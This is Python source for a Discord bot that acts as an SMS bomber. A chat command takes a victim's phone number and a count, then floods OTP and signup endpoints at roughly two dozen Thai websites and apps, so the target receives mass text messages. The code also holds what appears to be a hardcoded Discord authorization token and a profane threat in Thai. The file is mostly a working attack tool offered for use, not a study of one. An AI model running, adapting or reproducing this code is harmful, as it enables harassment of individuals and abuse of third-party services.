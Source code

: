 import discord,time
import requests
from requests import post,Session
from concurrent.futures import ThreadPoolExecutor
from discord.ext import commands
from re import search
import threading

token = "          ##โทเค่นบอท



prefix = "" #prefixของบอท

bot = commands.Bot(command_prefix=prefix,help_command=None)
threading = ThreadPoolExecutor(max_workers=int(100000000))
useragent = "Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"
def cang01(phone):
    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})
def cang02(phone):
    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")
    
def cang03(phone):
    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": "dec"}})
   
   
def cang1(phone):
    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
    
    
def cang2(phone):
    post("https://www.carsome.co.th/website/login/sendSMS",json={"username":phone,"optType":0})
    
def cang3(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={
  "on": {
    "value": phone,
    "country": "66"
  },
  "type": "mobile"
},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"}) 


def cang4(phone):
    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": f"{phone[1:]}","password":"123456789Az"})
    
    
def cang5(phone):
    post("https://gccircularlivingshop.com/sms/sendOtp", json={"grant_type":"otp","username": "+66"+phone,"password":"","client":"ecommerce"})
    
def cang6(phone):
    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})

def cang7(phone):
    post("https://m.lucabet168.com/api/register-otp",json={"brands_id":"609caede5a67e5001164b89d","agent_register":"60a22f7d233d2900110070d7","tel": phone})
    
def cang8(phone):
    post("https://store.boots.co.th/api/v1/guest/register/otp",json={"phone_number": phone})
    
 
    
def cang9(phone):
    post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
    
def cang10(phone):
    post("https://ep789bet.net/auth/send_otp", data={"phone":f"{phone}"})
    
def cang11(phone):
    post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,
        "language": "th"},headers={"accept": "application/json, text/plain, /",
	    "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})
    
    
    
    
def cang12(phone):
	post("https://discord.com/api/v9/users/@me/phone",json={
  "phone": "+66"+phone,
  "change_phone_reason": "guild_phone_required"
},headers={"authorization":"OTA4MjA2NjE4NjE1OTA2Mzg1.Ycz2Hw.TdQLC2lIwn6UQDl1xBsyJGLnjOw"})


def cang13(phone):
	post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})


def cang13(phone):
	post("https://api.scg-id.com/api/otp/send_otp", headers={"User-Agent": useragent, "Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})
	

def cang14(phone):
	post(f"https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/{phone}", headers={"User-Agent": useragent})
	
def cang15(phone):
	post("https://www.wongnai.com/_api/guest.json?_v=6.056&locale=th&_a=phoneLogIn",data={"phoneno":phone,

"retrycount":"0"

    },headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang16(phone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":phone,"password":"1111a1111A","name":phone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang17(phone):
    session = Session()
    searchItem = session.get("https://www.shopat24.com/register/").text
    ReqTOKEN = search("""<input type="hidden" name="_csrf" value="(.*)" />""", searchItem).group(1)
    session.post("https://www.shopat24.com/register/ajax/requestotp/", headers={"User-Agent": useragent, "content-type": "application/x-www-form-urlencoded; charset=UTF-8","X-CSRF-TOKEN": ReqTOKEN}, data={"phoneNumber": phone})
     
     
def cang18(phone):
    session = Session()
    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text
    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})
    
    

def sck(sphone):
    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username":sphone,"password":"1111a1111A","name":sphone,"provinceCode":"74","districtCode":"970","subdistrictCode":"8654","zipcode":"94140","siebelCustomerTypeId":"710","locale":"th_TH"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
def cang19(phone):
		post("https://vaccine.trueid.net/vacc-verify/api/getotp",json={"msisdn":phone,"function":"enroll"},headers={"user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36"})
    
    
def cang20(phone):
	post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone,
	})

	
def cang21(phone):
	requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    
def cang22(phone):
	requests.get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})
	
def cang23(phone):
	 requests.get("https://www.baanandbeyond.com/registration_initiate?on%5Bcountry%5D=66&on%5Bvalue%5D="+phone+"&type=mobile")
	 
def cang24(phone):
	requests.get("https://findclone.ru/register?phone=+66"+phone)

    
    
 
    
def BBot(phone, amount):
    for i in range(amount):
       
        
        
        
        threading.submit(cang01,phone)
        threading.submit(cang02,phone)
        threading.submit(cang03,phone)
        threading.submit(cang1,phone)
        threading.submit(cang2,phone)
        threading.submit(cang3,phone)
        threading.submit(cang3,phone)
        threading.submit(cang4,phone)
        threading.submit(cang5,phone)
        threading.submit(cang6,phone)
        threading.submit(cang7,phone)
        threading.submit(cang8,phone)
        threading.submit(cang9,phone)
        threading.submit(cang10,phone)
        threading.submit(cang11,phone)
        threading.submit(cang12,phone)
        threading.submit(cang13,phone)
        threading.submit(cang14,phone)
        threading.submit(cang15,phone)
        threading.submit(cang16,phone)
        threading.submit(cang17,phone)
        threading.submit(cang18,phone)
        threading.submit(cang19,phone)
        threading.submit(cang20,phone)        
        threading.submit(cang21,phone)
        threading.submit(cang22,phone)
        threading.submit(cang23,phone)
        threading.submit(cang24,phone)
        
        
        
        
        


        
       
        
        
        
@bot.event
async def on_connect():
    print(f"กำลังล็อกอินบอท : {bot.user}")
    time.sleep(1.0)
    print("ล็อกอินสำเร็จ")
    


    


    
    
    
@bot.command()
async def sms(ctx, phone, amount:int):
    
    if (amount < 151):
    	
      embes = discord.Embed(title="SPAMSMS", description="JAV- OFFICIAL",color=0xff4612)
      embes.add_field(name="กำลังยิงไปที่เบอร์",value=phone)
      ima = "https://phoneky.co.uk/thumbs/screensavers/down/technology/smsisloadi_aleaqts4.gif"
      embes.set_image(url=ima)
    
      await ctx.channel.send(embed=embes)
    
		
    
      BBot(phone,amount)
    else:
    	await ctx.channel.send("กูบอกว่ายิงไม่เกิน150ไง ไอสัสพวกเหี้ย กูฆ่ามึงแน่")
    


		
		
		
		
		


	
	
    
    
    
    
@bot.command()
async def help(ctx):
	emBed = discord.Embed(title="SPECTOR PRO",description="วิธิใช้",color=0xff4612)
	emBed.add_field(name="SP PRO",value="SP.sms [เบอร์] [จำนวน]")
	
	
	await ctx.channel.send(embed=emBed)
    
    
    
bot.run(token)

